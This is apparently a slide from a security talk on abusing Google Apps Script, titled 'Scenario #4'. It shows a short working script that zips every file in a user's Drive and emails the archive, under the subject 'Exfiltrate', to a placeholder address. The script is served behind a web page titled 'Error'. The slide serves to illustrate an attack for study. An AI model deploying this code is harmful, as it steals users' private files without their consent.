

Scenario #4
Code snippet:
function DriveDocToMail(){
  var listOfFiles = DriveApp.getFiles();
  var blobs = [];
  while(listOfFiles.hasNext()){
    var file = listOfFiles.next();
    blobs.push(file.getBlob());
      }
  var zip = Utilities.zip(blobs, 'newFiles.zip');
  fileszip = DriveApp.createFile(zip);
  MailApp.sendEmail("xxx@xxx.xxx", "Exfiltrate", "Data", {attachments:[fileszip]});
}

function doGet(e) {
  return HtmlService.createHtmlOutputFromFile("index.html")
    .setTitle("Error");
}

Limitation:
50MB attachment size limitation is applied by GAS

33/47